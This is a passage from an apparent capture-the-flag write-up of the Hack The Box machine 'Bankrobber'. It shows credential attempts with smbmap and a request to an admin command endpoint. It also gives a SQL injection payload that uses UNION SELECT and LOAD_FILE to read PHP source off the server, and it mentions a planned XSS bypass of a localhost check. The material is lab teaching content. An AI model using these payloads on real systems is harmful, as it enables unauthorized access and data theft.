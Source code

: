 Our default password list, `/usr/share/wordlists/rockyou.txt`, failed but this isn't the only password list we've access to. Using `/usr/share/seclists/Passwords/*` will use all password lists in [SecLists](https://github.com/danielmiessler/SecLists). That gave us the result `Welkom1!`.

The only service on an open port that we've credentials for is SMB so lets test those credentials there.

```bash
luc@kali:~/HTB/Bankrobber$ smbmap -H 10.10.10.154 -u root -p 'Welkom1!'
[!] Authentication error on 10.10.10.154
luc@kali:~/HTB/Bankrobber$ smbmap -H 10.10.10.154 -u administrator -p 'Welkom1!'
[!] Authentication error on 10.10.10.154
luc@kali:~/HTB/Bankrobber$ smbmap -H 10.10.10.154 -u gio -p 'Welkom1!'
[!] Authentication error on 10.10.10.154
```

#### XSS to Backdoorchecker

The admin page has the option to execute the `dir` command with any arguments as noted on the page:

```text
To quickly identify backdoors located on our server;
we implemented this function.
For safety issues you're only allowed to run the 'dir' command with any arguments.
```

```http
POST /admin/backdoorchecker.php HTTP/1.1

cmd=dir+-a
```

Executing this request results in an error message: `It's only allowed to access this function from localhost (::1). This is due to the recent hack attempts on our server.`. We'll need to bypass this restriction and we can try using our XSS for that, but first we'll go back to our SQL injection because we can use that to read source files. In [http & ssl/http](#http--sslhttp) we found a `notes.txt` file that mentioned that the default xampp folder was used to store the files.

```http
POST /admin/search.php HTTP/1.1

1'+union+select+'a',TO_BASE64(LOAD_FILE('c%3a/xampp/htdocs/admin/backdoorchecker.php')),'c
```

`1' union select 'a',TO_BASE64(LOAD_FILE('c:/xampp/htdocs/admin/backdoorchecker.php')),'c` will shows a base64 encoded version of the `c:/xampp/htdocs/admin/backdoorchecker.php` file.

```bash
luc@kali:~/HTB/Bankrobber$ mkdir source
luc@kali:~/HTB/Bankrobber$ cd source/
luc@kali:~/HTB/Bankrobber/source$ nano backdoorchecker.php.b64
...
The base64 string
...
luc@kali:~/HTB/Bankrobber/source$ cat backdoorchecker.php.b64 | base64 -d > backdoorchecker.php
```

We can now read the source code for `backdoorchecker.php`.
